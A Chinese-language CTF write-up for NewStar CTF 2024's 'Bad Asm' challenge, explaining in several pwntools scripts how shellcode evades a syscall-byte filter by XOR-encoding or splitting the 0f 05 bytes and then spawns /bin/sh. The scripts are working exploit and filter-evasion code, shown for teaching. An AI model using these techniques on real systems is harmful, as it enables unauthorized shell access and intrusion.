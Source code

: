 ```yaml
---
titleTemplate: ":title | WriteUp - NewStar CTF 2024"
---
```


# Bad Asm

程序过滤 `syscall` / `sysenter` / `int 0x80` 的汇编指令的机器码。

`strcpy` 限制了 shellcode 的机器码中不能出现 `0x00`.

开启的可执行的段具有写的权限，用异或搓出来 syscall 的机器码之后用 `mov` 写入到 shellcode 后面，中间用 `nop` 连接一下就行了。

由于程序清空了 `rsp` `rbp` 寄存器，我们需要恢复一下 `rsp` 的值，任意一个可读写的段即可，否则 `push` 操作会寄掉。

可以用异或先把 syscall 的机器码插入到当前 shellcode 的后面来执行 `read` 的 syscall，利用 `read` 在旧的 shellcode 后面插入 `execve("/bin/sh", 0, 0)` 的 shellcode，第二次输入的 payload 中 `0x42` 个 `a` 的作用是覆盖掉旧的 shellcode，毕竟执行过了也没用了。

恢复 `rsp` 的作用是为了能够正常执行 `push` `pop` 指令，这里 `push` `pop` 指令位于 `shellcraft.sh()` 生成的 shellcode 中。否则其生成的 shellcode 无法正常执行。

```python
# sudo sysctl -w kernel.randomize_va_space=0
from pwn import *
from Crypto.Util.number import long_to_bytes, bytes_to_long

context.log_level='debug'
context(arch='amd64', os='linux')
context.terminal=['tmux', 'splitw', '-h']

ELFpath = './pwn'
p=remote('???.???.???.???', ?????)

# p=process(ELFpath)
# gdb.attach(p)

shellcode='''
; // 目标: 使用 syscall 执行 read(0, code, 0x3fff)
mov rsp, rdi
mov rax, rdi
add sp, 0x0848 ; // 从开头到这里的作用是给 rsp 一个合法值，使 push/pop 指令能够正常执行。同时设置 rax 的值方便后面往当前 shellcode 末尾拼接上 syscall 指令的机器码。

mov rsi,rdi
mov dx, 0x3fff ; // 这两行作用是设置 rsi rdx 寄存器

mov cx, 0x454f
xor cx, 0x4040 ; // 这两行作用是用异或搓出来 0f 05 (syscall 的机器码)
add al, 0x40
mov [rax], cx  ; // rax原本指向的是当前段的开始位置，加上一个偏移，在之后指向的地方写入 0f 05，即 syscall，相当于拼接到当前 shellcode 后面。

xor rdi, rdi
xor rax, rax   ; // 设置 read 的系统调用号 0，设置 rdi 寄存器
'''
p.sendafter("Input your Code :", asm(shellcode).ljust(0x40, b'\x90')) # \x90是nop指令的机器码，用于连接上面的shellcode和写入的syscall，使程序能正常执行。

pause()
p.send(b'a'*0x42+asm(shellcraft.sh())) # 0x42个a正好覆盖了syscall，之后拼接新的shellcode会继续执行本次写入的新的shellcode
p.interactive()
```

除了异或的方法，我们可以用另一种方法布置 syscall 的机器码。

题目检查 syscall 的时候采用的方法是检测相邻两个字节，所以我们可以将两个字节分别用一个汇编指令写入到内存中，比如用 `mov`，这样我们就可以将其机器码 `0xf 0x5` 拆开，而不是连续的字节，这样也可以通过检查。

```python
mov byte ptr [r8 + 0x17], 0xf
mov byte ptr [r8 + 0x18], 0x5
```

最后保证控制执行流执行到写入的 `0f05` 那里就行了。

下面的 EXP 中直接异或搓了一个 `execve("/bin/sh", 0, 0)`，这样也是可以的。

```python
# sudo sysctl -w kernel.randomize_va_space=0
from pwn import *
from Crypto.Util.number import long_to_bytes, bytes_to_long

context.log_level='debug'
context(arch='amd64', os='linux')
context.terminal=['tmux', 'splitw', '-h']

ELFpath = './pwn'
p=remote('???.???.???.???', ?????)

# p=process(ELFpath)
# gdb.attach(p)

shellcode='''
; // 目标: 执行 execve("/bin/sh", 0, 0) 的 syscall
mov rsp, rdi
add sp, 0x0848 ; // 给 rsp 一个合法值，使程序能正常执行 push/pop，任意一个可读写段即可，我们这里刚好有rdi中存储的 shellcode 的段的起始位置，正好这个段有读写权限，就直接拿来在 0x848 偏移的位置当作栈顶了（加偏移是为了防止某些操作破坏写入的 shellcode）
mov rsi, 0x4028636f2e49226f
mov rdx, 0x4040104040204040
xor rsi, rdx
push rsi       ; // 异或搓出来'/bin/sh\x00'(正好 8 字节，一个寄存器能存下) 并 push 到栈上面。此时 rsp 指向的即此字符串的开始位置

mov ax, 0x454f
xor ax, 0x4040
mov rsi, rdi
add sil, 0x40
mov [rsi], ax  ; // 搓出来 syscall 的机器码 0f 05 并且拼接到当前 shellcode 后面。

mov rdi, rsp   ; // 设置 rdi，指向之前 push 到栈上面的 '/bin/sh\x00'
xor rsi, rsi
xor rdx, rdx   ; // 设置 rsi, rdx
xor rax, rax
mov al, 59     ; // 设置 execve 的系统调用号
'''
p.sendafter("Input your Code :", asm(shellcode).ljust(0x40, b'\x90'))
p.interactive()
```

除此之外，由于我们把栈放在可执行段上面了，我们可以直接异或整出来 syscall 的机器码然后 push 到栈上面，最后 `jmp rsp` 即可。由于这种方法我们并不依赖 `nop` 指令进行连接，在送 Payload 的时候可以去掉 `ljust` 了。

```python
# sudo sysctl -w kernel.randomize_va_space=0
from pwn import *
from Crypto.Util.number import long_to_bytes, bytes_to_long

context.log_level='debug'
context(arch='amd64', os='linux')
context.terminal=['tmux', 'splitw', '-h']

ELFpath = './pwn'
p=remote('???.???.???.???', ?????)

# p=process(ELFpath)
# gdb.attach(p)

shellcode='''
; // 目标: 执行 execve("/bin/sh", 0, 0) 的 syscall
mov rsp, rdi
add sp, 0x0848 ; // 给 rsp 一个合法值，使程序能正常执行 push/pop
mov rsi, 0x4028636f2e49226f
mov rdx, 0x4040104040204040
xor rsi, rdx
push rsi       ; // 异或搓出来 '/bin/sh\x00' 并 push 到栈上面。此时 rsp 指向的即此字符串的开始位置

mov rdi, rsp   ; // 设置 rdi，指向之前push到栈上面的 '/bin/sh\x00'
xor rsi, rsi
xor rdx, rdx   ; // 设置 rsi, rdx
xor rax, rax
mov al, 59     ; //设置 execve 的系统调用号

mov cx, 0xf5ff
xor cx, 0xf0f0 ; // 异或拿到 syscall 的机器码
push rcx       ; // push 到栈顶，rsp 此时指向的是 syscall 指令
jmp rsp
'''

p.sendafter("Input your Code :", asm(shellcode))

p.interactive()
```

在把 `/bin/sh\x00` push 到栈上面的时候，我们为了清除最后的 `0x00`，采用了异或的方法。除了这种方法外我们可以调整一下这个字符串，比如我们可以改为使用 `/bin///sh`，`shellcraft.sh()` 生成的 shellcode 采用的就是这种方法。

按照这种方法更改的 shellcode，也是可以拿到 shell 的。

```python
shellcode='''
; // 目标: 执行 execve("/bin///sh", 0, 0) 的 syscall
mov rsp, rdi
add sp, 0x0848 ; // 给rsp一个合法值，使程序能正常执行push/pop

push 0x68
mov rax, 0x732f2f2f6e69622f
push rax       ; // 将 '/bin///sh' push 到栈上面，最后一个字符 h 是第 6 行 push 的，高位默认填充为 0，此时就不用异或了

mov rdi, rsp   ; // 设置 rdi，指向之前 push 到栈上面的 '/bin/sh\x00'
xor rsi, rsi
xor rdx, rdx   ; // 设置 rsi, rdx
xor rax, rax
mov al, 59     ; // 设置 execve 的系统调用号

mov cx, 0xf5ff
xor cx, 0xf0f0 ; // 异或拿到 syscall 的机器码
push rcx       ; // push 到栈顶，rsp 此时指向的是 syscall 指令
jmp rsp
'''
```
